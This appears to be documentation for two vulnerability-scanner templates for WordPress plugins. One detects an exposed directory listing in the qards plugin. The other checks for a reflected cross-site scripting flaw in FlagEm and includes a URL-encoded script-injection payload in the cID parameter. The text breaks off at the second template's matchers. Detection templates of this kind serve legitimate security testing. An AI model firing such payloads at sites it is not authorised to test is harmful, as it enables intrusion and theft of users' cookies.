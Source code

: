 ## Description

- Searches for sensitive directories present in the qards plugin.
- severity - info
- tags - wordpress,listing,wp-plugin,wp

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/qards/

### Matchers

**Type - word**

- words
  1. Index of
  2. /wp-content/plugins/qards
- condition - and

**Type - status**

- status
  1. 200

---

# WordPress FlagEm - Cross-Site Scripting

## Description

- WordPress FlagEm plugin contains a cross-site scripting vulnerability. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - wordpress,xss,wp-plugin,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/FlagEm/flagit.php?cID=%22%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

### Matchers
